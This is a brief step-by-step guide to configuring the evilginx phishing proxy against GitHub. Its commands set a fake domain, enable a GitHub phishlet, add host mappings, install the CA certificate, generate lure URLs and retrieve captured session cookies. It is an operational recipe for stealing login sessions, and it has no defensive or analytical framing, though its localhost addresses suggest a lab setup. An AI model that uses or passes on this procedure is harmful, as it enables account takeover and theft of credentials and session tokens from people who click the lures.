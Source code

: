 # evilginx
0.To capure session Cookies : 
		` set cookies always --> keys: ['user_session:always']`

1.Setup domain
		`config domain fake.com/custom domain`

2.config IPv4
		`config ipv4 127.0.0.1`

3.set phishlet hostname
		`phishlets hostname github github.io.fake.com`
4.Enable Phishlet
		`phishlets enable github `

5.Optinal(Dev mode\Local Mode)
		`phishlets get-hosts github`

		127.0.0.1 github.io.fake.com
		127.0.0.1 api.github.io.fake.com
		127.0.0.1 github.github.io.fake.com
		SET THIS TO /ETC/HOSTS 

6.Create Lures
		`lures create github`

7.List all lures
		`lures`

8.Get the Lures URLs
		`lures get-urls 0 (id .i.e 0)`

** `For CA Certi search this  %USERPROFILE%  and install ca.certi`

9.Get Cookies/Sessions
		` sessions Id`
